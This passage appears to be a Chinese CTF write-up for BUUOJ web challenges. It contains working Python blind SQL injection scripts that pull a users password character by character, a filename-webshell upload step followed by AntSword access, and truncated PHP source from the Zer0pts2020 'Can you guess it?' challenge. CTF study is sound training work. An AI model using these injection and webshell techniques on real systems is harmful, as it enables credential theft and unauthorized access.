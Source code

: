 ```
        html = requests.get(url+payloads)
        if "JFIF" in html.text:
            l = mid +1
        else:
            r = mid
        mid = (l + r)>>1
    result+=chr(mid)
    print(result)
```

```
import requests
import time
name=''
for j in range(1,21):
    l = 32
    h = 127
    while abs(l-h)>1:
        i=int((l+h)/2)
        url="http://fde63acb-5720-46af-8abd-6a5b880c2d1d.node3.buuoj.cn/image.php?id=\\0'&path= or ascii(substr((select password from users),"+str(j)+",1))>"+str(i)+"%23"
        r = requests.get(url)
        time.sleep(0.005)
        if r.status_code=='429':
            print('to fast')
        if not 'Content-Length' in r.headers:
            l = i
        else:
            h = i
    name += chr(h)
print(name)
```

登陆后上传文件，返回说记录`文件名`到logs.php

Filename改为一句话，蚁剑 ls / -a 发现隐藏flag

![](https://img-blog.csdnimg.cn/542f7f5d43e740dba493f9f3a3d7890b.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# [Zer0pts2020]Can you guess it?
- basename()

源码：
```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
```